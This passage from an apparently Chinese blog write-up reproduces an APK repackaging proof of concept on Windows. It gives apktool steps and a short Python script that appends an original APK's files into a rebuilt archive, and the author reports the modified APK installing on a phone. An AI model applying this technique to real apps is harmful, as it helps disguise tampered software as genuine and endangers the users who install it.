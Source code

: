 在 linux 执⾏行了一遍,出现错误。可能是 apk 的原因。

索性把这 poc 移植到 windows 下,先是⽤用 apktool 把要更改的 apk 给反编译出来到一个目录 apk_test

然后⼜又把 apk_test 打包成⼀一个新的 apk

把原先的 apk 解压出来 apk_old

把 apk_old 所有⽂文件以 zip 压缩的⽅方式加⼊入新的 apk 中。我本机以 weibo.apk 为例:

![enter image description here](img/img3_u138_png.jpg)

可见两者大小发生了变化,apktool 在反编译过程不可避免的出现差异。并且重编译的 apk 不含有签名文件。

按照 poc 的做法我用批处理导出目录的文件名到 1.txt 修改了 poc.py

```
import zipfile
import sys
f=open('1.txt','r')
line=f.readline()
test=[]
while line:
    test1=line.replace("\n","")
    test.append(test1)
    if not line:
        break
    line=f.readline()
f.close()
z = zipfile.ZipFile("livers.apk", "a")
for i in range(0,len(test)):
    print test[i]
    z.write(str(test[i]))
z.close() 
```

![enter image description here](img/img4_u126_png.jpg)

差不多增大了一倍,放在手机上安装了一下,成功安装。查看了下:

![enter image description here](img/img5_u124_png.jpg)
